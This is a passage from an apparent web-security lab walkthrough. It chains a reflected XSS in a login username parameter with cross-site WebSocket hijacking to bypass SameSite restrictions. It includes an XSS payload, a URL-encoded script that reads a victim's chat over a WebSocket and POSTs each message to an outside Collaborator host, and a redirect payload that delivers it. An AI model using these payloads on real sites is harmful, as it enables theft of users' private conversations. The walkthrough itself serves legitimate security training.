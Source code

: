 Submit some arbitrary credentials and see that your username is reflected in the response:

```
<p>Invalid username: wiener</p>
```

Try injecting an XSS payload via the `username` parameter, for example `<script>alert(1)</script>`. Observe that `alert(1)` is called, confirming that this is a viable reflected XSS vector:

```
<p>Invalid username: <script>alert(1)</script></p>
```

Send this latest `POST /login` request to Repeater and right click it to "Change request method", which will convert this `POST` request to an equivalent `GET` request:

```
GET /login?username=<script>alert(1)</script>&password=peter HTTP/2
```

Confirm that it still receives the same response:

```
<p>Invalid username: <script>alert(1)</script></p>
```

Now right-click the request again, select "Copy URL" and visit the URL to confirm you can still trigger the XSS. If you can, this XSS vector can be used to launch the CSWSH attack without it being mitigated by SameSite restrictions as this site is a sibling domain. 

Go back to exploit server and copy the template in the "Body" section you used and stored previously. Go to Burp's __Decoder__ and URL encode the entire script:

```
%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%59%4f%55%52%2d%4c%41%42%2d%49%44%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%59%4f%55%52%2d%43%4f%4c%4c%41%42%4f%52%41%54%4f%52%2d%50%41%59%4c%4f%41%44%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e
```

Write a new payload in the "Body" section of the exploit server's form:

```
<script>
    document.location = "https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything";
</script>
```

Use the encoded URL encoded payload as a value to `username` parameter in the new payload.

Click "Store" and "View exploit" again. Go to Access log and see that you received five `GET` requests, all of which contain pieces of your entire chat history as `message` query parameter value. 
